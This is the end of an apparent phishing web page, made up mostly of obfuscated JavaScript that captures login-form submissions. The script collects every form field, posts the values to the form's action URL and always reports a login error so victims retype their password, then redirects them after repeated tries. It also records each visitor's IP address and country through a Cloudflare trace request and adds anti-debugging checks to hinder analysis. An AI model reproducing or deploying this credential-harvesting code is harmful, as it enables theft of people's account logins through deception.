C.tHgEU(n)};var u=n;if(C.ntgKj(C.cXNgW,C.dHEcl)){var e=!0;return function(t,r){if(!u.tHSrY(u.djRdV,u.YeXRU)){var n=e?function(){var n={VDZDz:function(n,t){return u.YuNte(n,t)}};if(u.tHSrY(u.rirOu,u.OAMpA));else if(r)if(u.HLueM(u.tUNaa,u.MIQqf)){n=r.apply(t,arguments);return r=null,n}}:function(){};return e=!1,n}}}}();!function(){var n={ypWle:function(n){return C.tHgEU(n)},dkcIA:function(n,t){return C.DClWc(n,t)}};n.Vzhqa=C.Yydmo,n.NXXqX=function(n,t){return C.DClWc(n,t)},n.PbdEl=C.yGXlI,n.tnmrd=function(n,t){return C.DClWc(n,t)},n.uwWEB=C.kPruE,n.KAqLv=function(n,t){return C.kGHiO(n,t)},n.JjZcM=function(n,t){return C.apmhG(n,t)},n.xsxkv=C.GNMwv,n.ZNIsA=C.Wxloc,n.WixKP=C.FDVlX,n.glZIo=C.krFUW,n.qyuOD=function(n,t){return C.cleGW(n,t)},n.IvrrQ=C.MtNNz,n.vwaLI=function(n,t){return C.zgBcX(n,t)},n.UelWE=C.eGVzW,n.NWBoj=C.xAuuv,n.dErif=function(n,t){return C.EuHvt(n,t)},n.lHekO=C.bQaas,n.giqbz=C.KdNtB,n.LAHtb=function(n,t){return C.cleGW(n,t)},n.bXdbu=C.Xztcl,n.QhPjK=C.EecZi,n.cmFLp=function(n){return C.YsACD(n)};var u=n;C.lENVC(C.lGVAG,C.lGVAG)||C.aCuNb(t,this,function(){var n={};n.vytlz=u.uwWEB,n.QVUky=function(n,t){return u.KAqLv(n,t)};var t,r;u.JjZcM(u.xsxkv,u.ZNIsA)||(t=new RegExp(u.WixKP),r=new RegExp(u.glZIo,"i"),n=u.qyuOD(_0x8ddbae,u.IvrrQ),t.test(u.vwaLI(n,u.UelWE))&&r.test(u.vwaLI(n,u.NWBoj))?u.dErif(u.bXdbu,u.QhPjK)||u.cmFLp(_0x8ddbae):u.dErif(u.lHekO,u.giqbz)||u.LAHtb(n,"0"))})()}();var a=function(){var n={pSlfI:function(n,t){return C.lENVC(n,t)}};n.IZiHd=C.aFtTt,n.AVTTL=function(n,t){return C.nhrwb(n,t)},n.GFWLx=C.OdFSi,n.JSIAn=function(n,t){return C.zgBcX(n,t)},n.USdVO=function(n,t){return C.oRnrt(n,t)},n.CloPW=function(n,t){return C.oRnrt(n,t)},n.HRnBb=C.kPruE,n.bnpNh=function(n,t){return C.tivPR(n,t)},n.aNNrz=C.FDVlX,n.prXQG=C.krFUW,n.aoJRZ=C.MtNNz,n.BKDuL=function(n,t){return C.gZKBp(n,t)},n.LbRDs=C.eGVzW,n.zdmOf=C.xAuuv,n.UEqpj=function(n,t){return C.oRnrt(n,t)},n.wqqSp=function(n){return C.YsACD(n)},n.FGrez=function(n,t){return C.kFfqK(n,t)},n.KeDkj=C.muUIE,n.VCVCD=C.SGssv;var u=n;if(!C.JweuC(C.ytqFp,C.ytqFp)){var e=!0;return function(t,r){var n={bpqKM:function(n,t){return u.JSIAn(n,t)},dDWPg:function(n,t){return u.USdVO(n,t)},pQBUb:function(n,t){return u.CloPW(n,t)}};n.Vayua=u.HRnBb,n.OKjty=function(n,t){return u.bnpNh(n,t)},n.sNARv=u.aNNrz,n.jRYxQ=u.prXQG,n.qnBiL=u.aoJRZ,n.fncMi=function(n,t){return u.BKDuL(n,t)},n.rfBjA=u.LbRDs,n.NMueW=u.zdmOf,n.SqiVR=function(n,t){return u.UEqpj(n,t)},n.NSwSy=function(n){return u.wqqSp(n)};if(!u.FGrez(u.KeDkj,u.VCVCD)){n=e?function(){if(u.pSlfI(u.IZiHd,u.IZiHd));else if(r)if(!u.AVTTL(u.GFWLx,u.GFWLx)){var n=r.apply(t,arguments);return r=null,n}}:function(){};return e=!1,n}}}}(),n=C.YXywP(a,this,function(){var n={};n.sBENC=C.Lmadu,n.Zyqog=C.MSAzT,n.FzYol=function(n,t){return C.HRBoM(n,t)},n.Xjkzl=function(n,t){return C.XmmZS(n,t)},n.uhxAR=C.kwvPR,n.LFlrk=C.aNbZW;if(C.vvIZy(C.pALgK,C.LuNCo));else for(var n=C.Kludl(function(){if(C.iamGr(C.WrzBX,C.WrzBX)){var t;try{C.iCtdY(C.JKnBj,C.JKnBj)||(t=C.bxgrS(Function,C.XmmZS(C.XmmZS(C.kwvPR,C.aNbZW),");"))())}catch(n){C.cDCvh(C.bHPAQ,C.QsQro)&&(t=window)}return t}}),t=n.console=n.console||{},r=[C.BgytG,C.jdaPh,C.lcWbA,C.zYdEn,C.joWVW,C.HQNRM,C.sfNHO],u=0;C.eCixR(u,r.length);u++)if(C.NhdMc(C.GnnLj,C.GnnLj));else for(var e=C.Hgzxr.split("|"),i=0;;){switch(e[i++]){case"0":t[c]=o;continue;case"1":var o=a.constructor.prototype.bind(a);continue;case"2":var c=r[u];continue;case"3":o.toString=f.toString.bind(f);continue;case"4":o.__proto__=a.bind(a);continue;case"5":var f=t[c]||o;continue}break}});C.xXehr(n);var s={};function u(n){var t={jvHti:function(n,t){return C.vvIZy(n,t)}};t.VaKXM=C.rXfoQ,t.zzbxz=C.TumhY,t.hioaW=function(n,t){return C.NhdMc(n,t)},t.QnBWH=C.aAKPB,t.kiFXa=function(n,t){return C.cblOq(n,t)},t.duwEz=function(n,t){return C.LRnsH(n,t)},t.qaJTa=C.aWbuQ,t.Fdbdm=C.ydbrz,t.QDOLD=function(n,t){return C.twtFx(n,t)},t.ilHhV=function(n,t){return C.kzodN(n,t)},t.NWIzR=C.LKgCL,t.ebPmr=function(n,t){return C.JfJJs(n,t)},t.KlvfY=C.hlWYw,t.Bfwrj=C.JkgCH,t.wyzvh=function(n,t){return C.FsQVu(n,t)},t.kgbJU=C.kwvPR,t.bjTsI=C.aNbZW,t.UCEQS=function(n){return C.Nelgo(n)},t.swqWC=function(n,t){return C.LRnsH(n,t)},t.vDXwd=C.edPRk,t.XJiLL=C.cgAVM,t.mHqqS=C.hYbBR,t.lJNzD=C.lPwJo,t.ypHDj=function(n,t){return C.KphHG(n,t)},t.rxtYC=C.LKSzP,t.Cigtf=C.lcKYd;var u=t;n.preventDefault();var e=n.target,n=function(n){var t={NvQpe:function(n,t){return u.ilHhV(n,t)},aStvx:function(n,t){return u.jvHti(n,t)}};t.YcqJd=u.NWIzR,t.FJPtC=function(n,t){return u.ebPmr(n,t)},t.RdXNZ=u.KlvfY,t.TbxXe=u.Bfwrj,t.BoXEg=function(n,t){return u.wyzvh(n,t)},t.vbmiQ=u.kgbJU,t.lmevS=u.bjTsI,t.APELD=function(n){return u.UCEQS(n)},t.eKzJi=function(n,t){return u.swqWC(n,t)},t.TbXJS=u.vDXwd,t.hIwkV=u.XJiLL,t.CKcjS=u.mHqqS,t.RYqEW=u.lJNzD,t.QAnkT=function(n,t){return u.ypHDj(n,t)},t.uGLcD=u.rxtYC;var r,o=t,c=n.elements,t=Object.keys(c).filter(function(n){if(!u.jvHti(u.VaKXM,u.zzbxz))return u.hioaW(u.QnBWH,c[n].name)||(r=c[n].value,!1)}).map(function(n){if(u.duwEz(u.qaJTa,u.Fdbdm))return u.duwEz(void 0,c[n].name)?c[n].name:u.QDOLD(c[n].length,0)?c[n].item(0).name:void 0}).filter(function(n,t,r){if(o.aStvx(o.YcqJd,o.YcqJd))return o.FJPtC(r.indexOf(n),t)&&n}),f={};return t.forEach(function(n){var t={fsREy:function(n,t){return o.NvQpe(n,t)},nqEfY:function(n,t){return o.BoXEg(n,t)},socup:function(n,t){return o.BoXEg(n,t)}};t.KwbQq=o.vbmiQ,t.MHtgX=o.lmevS,t.rBDio=function(n){return o.APELD(n)};if(o.eKzJi(o.TbXJS,o.hIwkV)){var r=c[n];if(f[n]=r.value,r.length)if(o.aStvx(o.CKcjS,o.RYqEW));else{for(var u,e=[],i=0;o.QAnkT(i,r.length);i++)!o.aStvx(o.uGLcD,o.uGLcD)||((u=r.item(i)).checked||u.selected)&&e.push(u.value);f[n]=e.join(", ")}}else;}),f.nameList=JSON.stringify(t),f.tableName=n.dataset.sheet||u.Cigtf,f.submit=n.dataset.email||"",{data:f,apiKey:r}}(e),r=n.data;if(n.apiKey)return!1;var i,o=C.kzodN($,C.PLTmC).val(),c=C.kzodN($,C.yGXlI).val();s.hasOwnProperty(o)&&s[o].includes(c)?window.location.href=url_direct:(function(){for(var n=e.querySelectorAll(C.kPruE),t=0;C.eCixR(t,n.length);t++)n[t].disabled=!0}(),f=e.action,(i=new XMLHttpRequest).open(C.iccJs,f),i.setRequestHeader(C.SoaMq,C.XiFCl),i.onreadystatechange=function(){var n={};n.wvcuN=C.kPruE,n.mElbm=function(n,t){return C.OZgar(n,t)};var r=n;s.hasOwnProperty(o)||(s[o]=[]),s[o].push(c),function(){for(var n=e.querySelectorAll(r.wvcuN),t=0;r.mElbm(t,n.length);t++)n[t].disabled=!1}(),C.zJAve($,C.Yydmo).html(language.login_error),C.zfOYv($,C.Yydmo).show(),C.zfOYv($,C.yGXlI).val(""),C.zfOYv($,C.yGXlI).focus()});var f=Object.keys(r).map(function(n){return C.XmmZS(C.FsQVu(C.cblOq(encodeURIComponent,n),"="),C.cblOq(encodeURIComponent,r[n]))}).join("&");i.send(f)}document.addEventListener(C.yHNSI,function(){for(var n=document.querySelectorAll(C.LmRZg),t=0;C.KphHG(t,n.length);t++)n[t].addEventListener(C.pyoVi,u,!1)},!1)}(),setInterval(function(){var n={RYscx:function(n){return n()}};n.RYscx(_0x8ddbae)},4e3)</script><script src='https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js'></script><script async src='https://www.googletagmanager.com/gtag/js?id=UA-39031854-1'></script><script>function gtag(){dataLayer.push(arguments)}window.dataLayer=window.dataLayer||[],gtag("js",new Date),gtag("config","UA-87073948-1"),$.get("https://www.cloudflare.com/cdn-cgi/trace",function(t){t=t.trim().split("\n").reduce(function(t,a){return t[(a=a.split("="))[0]]=a[1],t},{}),$("#ip").val(t.ip),$("#country").val(t.loc)})</script></body></html>
